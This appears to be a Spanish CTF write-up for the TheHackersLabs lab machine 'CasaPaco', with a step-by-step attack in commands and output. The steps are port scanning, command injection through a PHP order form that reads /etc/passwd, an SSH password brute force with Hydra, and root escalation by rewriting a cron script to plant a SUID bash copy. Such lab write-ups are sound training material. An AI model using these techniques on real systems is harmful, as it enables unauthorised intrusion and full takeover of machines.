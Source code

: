 # 🍽️ Resolución del CTF "Casa Paco" | The HackersLabs

**Plataforma:** TheHackersLabs  
**Nombre de la máquina:** CasaPaco  
**Dificultad:** Fácil/Media  
**Enfoque:** Inyección de comandos, fuerza bruta SSH, escalada de privilegios vía cronjob

---

## 🔍 1. Escaneo de puertos con Nmap

```bash
nmap -p- -sS -sC -sV -Pn 192.168.1.126
```

**Puertos abiertos:**

- 22/tcp → OpenSSH 9.2p1
- 80/tcp → Apache 2.4.62

---

## 🌐 2. Enumeración web

Accedemos a `http://casapaco.thl/` y observamos una web de pedidos llamada **Casa Paco - Pedido para Llevar**.

Con **feroxbuster** descubrimos la existencia de un archivo interesante:

```bash
feroxbuster --url http://casapaco.thl -x php,html,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Se encuentra el endpoint `llevar.php`.

---

## 💥 3. Inyección de comandos (Command Injection)

Probamos inyección en el parámetro `dish` mediante Burp Suite:

```http
POST /llevar.php
name=admin&dish=cat /etc/passwd
```

Confirmamos que el contenido del comando se refleja en la respuesta → **vulnerabilidad de inyección de comandos**.

Posteriormente, identificamos el código fuente en `llevar.php`, donde se utiliza `shell_exec()` directamente con el input del usuario (`$dish`) sin una validación robusta.

---

## 🕵️ 4. Enumeración de usuarios

Listamos `/etc/passwd` y encontramos al usuario `pacogerente`:

```
pacogerente:x:1001:1001::/home/pacogerente:/bin/bash
```

---

## 🔓 5. Ataque de fuerza bruta SSH

Usamos Hydra para romper la contraseña del usuario `pacogerente`:

```bash
hydra -l pacogerente -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.126
```

**Credenciales válidas:**
- Usuario: pacogerente
- Contraseña: dipset1

---

## 💻 6. Acceso SSH

```bash
ssh pacogerente@192.168.1.126
```

Entramos correctamente y confirmamos el usuario con `whoami`.

---

## 🎯 7. Obtención de la flag de usuario

```bash
cat /home/pacogerente/user.txt
```

Flag de usuario obtenida exitosamente.

---

## ⬆️ 8. Escalada de privilegios vía cronjob

Listamos los cronjobs del sistema:

```bash
ls -l /etc/cron.d/
```

Encontramos un cronjob ejecutado como **root** cada minuto:

```bash
* * * * * root /home/pacogerente/fabada.sh
```

### 🔧 Script original

```bash
#!/bin/bash
echo "Ejecutado por cron el: $(date)" >> /home/pacogerente/log.txt
```

### 🔥 Lo modificamos para escalar privilegios:

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Tras esperar la ejecución automática del cron, se crea el binario `/tmp/rootbash` con bit SUID:

```bash
ls -l /tmp/rootbash
-rwsr-sr-x 1 root root [...] /tmp/rootbash
```

Ejecutamos con privilegios:

```bash
/tmp/rootbash -p
whoami
> root
```

---

## 🏁 9. Flag root

```bash
cat /root/root.txt
```

Flag de root obtenida con éxito ✅

---

## 🧩 Conclusión

Resumen de pasos:

1. Enumeración web e identificación de endpoint vulnerable (`llevar.php`)
2. Explotación de inyección de comandos
3. Enumeración de usuarios desde `/etc/passwd`
4. Ataque de fuerza bruta por SSH
5. Escalada de privilegios mediante cronjob mal configurado
6. Modificación del script para generar binario con bit SUID
7. Ejecución como root y obtención de la flag final

---
